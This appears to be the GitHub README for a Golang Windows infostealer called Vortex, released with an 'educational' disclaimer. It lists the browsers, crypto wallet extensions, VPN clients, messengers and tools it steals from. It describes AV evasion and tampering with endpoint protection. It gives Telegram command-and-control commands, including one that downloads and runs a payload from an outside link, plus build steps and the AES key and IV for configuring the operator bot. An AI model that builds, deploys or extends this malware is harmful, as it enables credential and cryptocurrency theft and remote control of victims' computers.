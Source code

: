 ## Vortex InfoStealer

This is an infostealer malware written in Golang that I have wrote long time ago for some researches and I have decided to release the code for researching.

## Overview

Vortex is a Windows-focused information-stealing implant with an operator-controlled commands. It is designed to operate as both a data exfiltration tool and a flexible backdoor: it can enumerate and manage connected clients, collect high-value artifacts (browser data, wallet extensions, messaging and desktop app data, file collections, screenshots), and receive updated components from an operator. The implant emphasizes stealth and persistence through extensive anti-analysis and AV-evasion techniques.
The data will be delivered via Telegram bot and it will be controlled via Telegram bot commands.

![1.png](images/1.png)
![2.png](images/2.png)
![3.png](images/3.png)

## Disclaimer

This project is provided **for educational and research purposes only**.
It is intended to help **security researchers and defenders** understand, analyze, and improve malware detection.
Any misuse of this code for illegal or unethical activity **is strictly prohibited**.
The author assumes **no responsibility** for any damage or consequences caused by improper use.

## Key capabilities

- **C2 Capabilities**: The implant supports remote status checks and enumeration of connected clients to identify active or available victims. It can instruct clients to perform actions such as retrieving screenshots, collecting files (images/documents), toggling data collection/upload behavior, and receiving upgraded binaries.

- **Payload distribution/backdoor**: The vortex implant can accept and execute secondary payloads supplied by the operator (documented here as a capability only).

- **Data Stealing**: Collecting much possible data include browser profiles, browser extensions (notably crypto wallet extensions), VPN client config files, messenger applications, and common desktop tools that may store credentials or sessions.

- **Evasion & anti-analysis**: Vortex implant contains sandbox/VM detection, anti-debugging techniques, heavy binary obfuscation and packing, and mechanisms intended to frustrate static and dynamic analysis.

- **Endpoint interference**: Capabilities to tamper with or disable endpoint protections have been observed or claimed; defenders should treat attempts to modify security tooling as high-risk indicators.

## Primary targets and affected software categories

> **(Listed for defensive prioritization; useful for threat-hunting and AV signature tuning.)**

| Browsers     | VPN       | CryptoWallets | CryptoWallets Extensions | Messengers | Others     |
| ------------ | --------- | ------------- | ------------------------ | ---------- | ---------- |
| 7Star        | NordVPN   | Zcash         | Tronlink                 | Discord    | FileZilla  |
| Cent         | ProtonVPN | Armory        | NiftyWallet              | Telegram   | Putty      |
| Chrome       | OpenVPN   | Exodus        | Metamask                 | Element    | Teamviewer |
| Chromium     |           | Ethereum      | MathWallet               | Signal     | WinSCP     |
| Edge         |           | Electrum      | Coinbase                 | Skype      | Steam      |
| QQBrowser    |           | Atomic        | BinanceChain             | Whatsapp   | Uplay      |
| Opera        |           | Guarda        | BraveWallet              |            |            |
| OperaNeon    |           | Coinomi       | GuardaWallet             |            |            |
| Amigo        |           | Jaxx          | EqualWallet              |            |            |
| Chedot       |           | Binance       | JaxxxLiberty             |            |            |
| Brave        |           |               | BitAppWallet             |            |            |
| ComodoDragon |           |               | iWallet                  |            |            |
| CocCoc       |           |               | Wombat                   |            |            |
| AVGBrowser   |           |               | YoroiWallet              |            |            |
| Slimjet      |           |               | TonCrystal               |            |            |
| Sputnik      |           |               | Coin98Wallet             |            |            |
| Vivaldi      |           |               | Phantom                  |            |            |
| Firefox      |           |               | GuildWallet              |            |            |
| Waterfox     |           |               | Oxygen                   |            |            |
| Palemoon     |           |               | LiqualityWallet          |            |            |
| Icecat       |           |               | Iconex                   |            |            |
|              |           |               | Mobox                    |            |            |
|              |           |               | XinPay                   |            |            |
|              |           |               | Sollet                   |            |            |
|              |           |               | Slope                    |            |            |
|              |           |               | Starcoin                 |            |            |
|              |           |               | Swash                    |            |            |
|              |           |               | Finnie                   |            |            |
|              |           |               | Keplr                    |            |            |
|              |           |               | Crocobit                 |            |            |
|              |           |               | AtomWallet               |            |            |
|              |           |               | KardiaChain              |            |            |
|              |           |               | TerraStation             |            |            |
|              |           |               | BoltX                    |            |            |
|              |           |               | RoninWallet              |            |            |
|              |           |               | XdefiWallet              |            |            |
|              |           |               | Nami                     |            |            |
|              |           |               | MultiversXDeFiWallet     |            |            |
|              |           |               | PaliWallet               |            |            |
|              |           |               | TempleTezosWallet        |            |            |
|              |           |               | ExodusWeb3Wallet         |            |            |

## Telegram Bot Commands

| Bot Command                                                 | Description                                                                                                                                     |
| ----------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------- |
| /check `<ZOMBIE_ID>`                                        | Checks if the zombie host is online                                                                                                             |
| /check_all                                                  | Checks all the available zombies and who is connected                                                                                           |
| /drop `<ZOMBIE_ID>` `<DOWNLOAD_LINK>` `<EXE_NAME>` `<PATH>` | Download and execute an exe file on specific zombie EX: /drop 11111-22222-3333-4444 http://file.io/payload.exe payload.exe                      |
| /screenshot `<ZOMBIE_ID>`                                   | Take screenshot of zombie desktop screen                                                                                                        |
| /get_data `<ZOMBIE_ID>` `<DATATYPE>` `<PATH>`               | Collect (images/documents) data                                                                                                                 |
| /disable_upload `<ZOMBIE_ID>`                               | Disable data dumped from uploading of specific zombie                                                                                           |
| /enable_upload`<ZOMBIE_ID>`                                 | Enable data uploading of specific zombie (Enabled by default)                                                                                   |
| /upgrade `<ZOMBIE_ID>` `<DOWNLOAD_LINK>` `<IMPLANT_NAME>`   | Upgrades the current agathos implant with newer updated version EX: /upgrade 11111-22222-3333-4444 https://file.io/agathos.exe chrome_patch.exe |

## Requirements to compile

It needs to be compiled on linux machine, any type of linux distribution is compatible as long as it have Go packages and mingw compilers. I will use ubuntu here as an example.

- Install the required packages.
```bash
sudo apt install golang gcc-mingw-w64 make
```

- Start to compile (`release_x64` , `release_x32`, `debug`)
```bash
make release_x64
```

## Telegram Configuration

Start to make telegram bot using @BotFather and get the telegram token and chat ID.

Then encrypt the token and the chat ID with AES Encryption method "CBC Mode" with the following Cipher Key and IV.

- Key
```c
0xD5, 0x03, 0xE6, 0xE0, 0x63, 0x52, 0x7C,
0xB6, 0x24, 0xFE, 0x03, 0x63, 0xFF, 0xF9,
0xB3, 0xBD, 0x20, 0x94, 0x1C, 0xAF, 0x70,
0x84, 0x92, 0xB6, 0x90, 0x5F, 0x66, 0x43,
0x4D, 0xCA, 0x72, 0x77
```
- IV
```c
0x27, 0xD8, 0xB1, 0xF0, 0xDB, 0x3C, 0xAB,
0x3E, 0x20, 0x20, 0x21, 0x56, 0xBA, 0x1B,
0x37, 0x13
```

And then encode the RAW output with base64 and place it in `main.go` file.
